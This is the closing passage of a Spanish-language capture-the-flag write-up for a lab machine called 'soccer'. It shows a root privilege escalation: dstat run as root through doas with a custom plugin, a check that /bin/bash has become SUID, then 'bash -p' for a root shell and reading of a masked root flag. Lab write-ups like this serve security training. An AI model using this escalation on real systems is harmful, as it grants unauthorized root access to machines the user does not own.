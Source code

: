```bash
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
```
Vemos que ***/bin/bash*** tiene los permisos ***SUID***
```bash
player@soccer:/usr/local/share/dstat$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
Ejecutamos los comando y ya temos acceso como ***root*** y podemos ver la ***flag***
```bash
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
69****************************ab
bash-5.0# 
```

# Espro que te pueda servir de ayuda. *GRACIAS por venir*



